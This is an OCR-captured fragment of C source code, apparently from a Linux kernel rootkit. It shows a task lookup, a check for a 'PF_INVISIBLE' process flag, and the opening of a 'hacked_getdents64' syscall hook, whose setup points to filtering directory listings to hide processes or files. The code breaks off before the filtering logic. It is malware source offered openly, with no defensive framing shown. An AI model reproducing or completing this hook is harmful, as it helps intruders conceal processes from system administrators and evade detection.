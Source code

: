 ```c
	for_each_process(target_process)
	{
		if (target_process->pid == pid)
        	{
			return target_process;
	        }
	}
	return NULL;
}

static int is_invisible(pid_t pid)
{
	struct task_struct *task;

	if (!pid)
	{
		return 0;
	}

	task = find_task(pid);
	if (!task)
	{
		return 0;
	}
      
	if (task->flags & PF_INVISIBLE)
	{
		return 1;
	}
	return 0;
}

static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
{
	/* Dependent registers:
	 * rax: contains syscall ids = 0xd9
	 * rdi: which contains the file descriptor = unsigned int fd
	 * rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
	 * rdx: length of the passed argument(or string) = unsigned int count
	 */

	// Storing file descriptor to uniquely identifies an open file 
	int fd = (int) pt_regs->di;

	/* User space related variable
	 * Storing the name of the file in a directory passed from user space via "si" register
	 */
	struct linux_dirent *dirent = (struct linux_dirent *) pt_regs->si;

	int ret = orig_getdents64(pt_regs), err;

	// kernel space related variables
	unsigned short proc = 0;
	unsigned long offset = 0;
	struct linux_dirent64 *dir, *kdirent, *prev = NULL;

	//For storing the directory inode value
	struct inode *d_inode;

	if (ret <= 0)
        	return ret;

```